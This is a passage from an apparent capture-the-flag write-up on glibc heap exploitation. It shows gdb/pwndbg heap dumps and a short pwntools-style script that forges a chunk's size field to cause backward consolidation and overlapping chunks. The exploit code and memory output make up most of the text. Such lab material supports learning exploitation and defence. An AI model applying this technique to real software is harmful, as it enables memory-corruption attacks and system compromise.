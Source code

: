 0x14c1180:	0x3131313131313131	0x3131313131313131
0x14c1190:	0x0000000000000170	0x0000000000000100
0x14c11a0:	0x3232323232323232	0x3232323232323232
0x14c11b0:	0x3232323232323232	0x3232323232323232
0x14c11c0:	0x3232323232323232	0x3232323232323232
0x14c11d0:	0x3232323232323232	0x3232323232323232
0x14c11e0:	0x3232323232323232	0x3232323232323232
0x14c11f0:	0x3232323232323232	0x3232323232323232
0x14c1200:	0x3232323232323232	0x3232323232323232
0x14c1210:	0x3232323232323232	0x3232323232323232
0x14c1220:	0x3232323232323232	0x3232323232323232
0x14c1230:	0x3232323232323232	0x3232323232323232
0x14c1240:	0x3232323232323232	0x3232323232323232
0x14c1250:	0x3232323232323232	0x3232323232323232
0x14c1260:	0x3232323232323232	0x3232323232323232
0x14c1270:	0x3232323232323232	0x3232323232323232
0x14c1280:	0x3232323232323232	0x3232323232323232
0x14c1290:	0x0000000000000270	0x0000000000000020
0x14c12a0:	0x3333333333333333	0x3333333333333333
0x14c12b0:	0x0000000000000000	0x0000000000020ce1
0x14c12c0:	0x0000000000000000	0x0000000000000000
```
add new chunk, to make fd the positon 0x14c1130 above
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)

p.interactive()
```
```gdb -q -p `pidof pwn` -ex "b *0x400A6F" -ex "c"```
```
pwndbg> heapbase
heapbase : 0x6c3000
pwndbg> ni
pwndbg> x/90gx 0x6c3000
0x6c3000:	0x0000000000000000	0x0000000000000021
0x6c3010:	0x0000000000400896	0x00000000004008b1
0x6c3020:	0x0000000000000000	0x0000000000000101
0x6c3030:	0x00007fed0c14bdd8	0x00007fed0c14bdd8
0x6c3040:	0x3030303030303030	0x3030303030303030
0x6c3050:	0x3030303030303030	0x3030303030303030
0x6c3060:	0x3030303030303030	0x3030303030303030
0x6c3070:	0x3030303030303030	0x3030303030303030
0x6c3080:	0x3030303030303030	0x3030303030303030
0x6c3090:	0x3030303030303030	0x3030303030303030
0x6c30a0:	0x3030303030303030	0x3030303030303030
0x6c30b0:	0x3030303030303030	0x3030303030303030
0x6c30c0:	0x3030303030303030	0x3030303030303030
0x6c30d0:	0x3030303030303030	0x3030303030303030
0x6c30e0:	0x3030303030303030	0x3030303030303030
0x6c30f0:	0x3030303030303030	0x3030303030303030
0x6c3100:	0x3030303030303030	0x3030303030303030
0x6c3110:	0x3030303030303030	0x3030303030303030
0x6c3120:	0x0000000000000100	0x0000000000000171
0x6c3130:	0x00007fed0c14bb78	0x00007fed0c14bb78
0x6c3140:	0x3131313131313131	0x3131313131313131
0x6c3150:	0x3131313131313131	0x3131313131313131